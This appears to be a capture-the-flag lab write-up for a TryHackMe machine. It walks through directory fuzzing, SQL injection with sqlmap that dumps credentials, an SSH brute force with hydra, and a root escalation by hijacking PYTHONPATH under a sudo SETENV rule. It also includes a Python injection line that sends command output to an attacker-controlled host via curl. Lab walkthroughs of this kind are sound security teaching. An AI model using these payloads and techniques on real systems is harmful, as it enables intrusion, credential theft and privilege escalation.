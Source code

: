 ```yaml
---
sticker: emoji//1f4d8
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | ssh     |
| 8000 | http    |



# RECONNAISSANCE
---


![](images/Pasted%20image%2020250515122728.png)


As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.160.42:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![](images/Pasted%20image%2020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![](images/Pasted%20image%2020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```


This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:


![](images/Pasted%20image%2020250515124333.png)

If we use that, we get:


![](images/Pasted%20image%2020250515124345.png)


Surprisingly, `SQLI` works, let's proceed to exploitation then.


# EXPLOITATION
---

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:


```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email                | password       | username |
+----+----------------------+----------------+----------+
| 1  | smokey@email.boop    | My_P@ssW0rd123 | smokey   |
| 2  | test@test.com;whoami | test           | test     |
+----+----------------------+----------------+----------+
```


There we go, we got credentials, let's go into ssh

![](images/Pasted%20image%2020250515125529.png)


We can begin privilege escalation.



# PRIVILEGE ESCALATION
---


To begin with, let's use `linpeas` so we can check any PE vector:

![](images/Pasted%20image%2020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![](images/Pasted%20image%2020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root  root  4096 Mar  2  2022 .
drwxr-xr-x 5 root  root  4096 May 15 17:18 ..
lrwxrwxrwx 1 root  root     9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25  2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec  7  2021 .cache
-rw-r----- 1 root  hazel  497 Dec  7  2021 hasher.py
-rw-r--r-- 1 hazel hazel  807 Feb 25  2020 .profile
-rw-r----- 1 root  hazel   45 Mar  2  2022 user.txt
-rw------- 1 hazel hazel    0 Dec  7  2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![](images/Pasted%20image%2020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![](images/Pasted%20image%2020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec  7  2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, The `PYTHONPATH`environment variable controls where Python looks for modules. When Python imports a module like `hashlib`, it searches for the module in the following order:

- Current directory
- Directories in the `PYTHONPATH` environment variable
- Standard library directories
- Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a malicious `hashlib.py` module** that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute the `hasher.py` script with sudo**, hijacking the `PYTHONPATH` environment variable to include `/tmp`. 

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![](images/Pasted%20image%2020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![](images/Pasted%20image%2020250515135418.png)

